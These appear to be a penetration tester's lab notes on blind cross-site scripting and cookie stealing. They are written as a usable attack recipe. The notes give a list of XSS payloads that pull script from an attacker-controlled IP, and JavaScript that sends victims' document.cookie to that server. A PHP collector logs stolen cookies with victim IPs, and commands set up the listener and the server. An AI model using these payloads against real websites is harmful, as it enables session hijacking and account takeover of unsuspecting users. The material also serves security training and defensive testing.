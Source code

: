 also known as Cookie Stealing 

## Blind 
finding what input field is vulnerable

use a JavaScript payload that sends an HTTP request back to our server. If the JavaScript code gets executed, we will get a response on our machine, and we will know that the page is indeed vulnerable.

1. Find what payload out of all these payload here first
```html
<script src=http://10.10.14.91></script>
'><script src=http://10.10.14.91></script>
"><script src=http://10.10.14.91/password></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

FInd out what field is vulnerable
```html
<script src="http://10.10.14.91/url"></script>
```
can change the directory/page to the field name to know what field can be injected

a few examples we can use from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss):


listen on
```
sudo nc -lnvp 80
```


## Hijacking 
host this below as a javascript file (as script.js)
```javascript
document.location='http://10.10.14.91/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

multiple cookie php script (save as index.php)
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

then start the php server
```
pilorekenorse@htb[/htb]$ mkdir /tmp/tmpserver
pilorekenorse@htb[/htb]$ cd /tmp/tmpserver
pilorekenorse@htb[/htb]$ vi index.php #at this step we wrote our index.php file
pilorekenorse@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

send payload in vulnerable field
```
"><script src=http://10.10.14.91/script.js></script>
```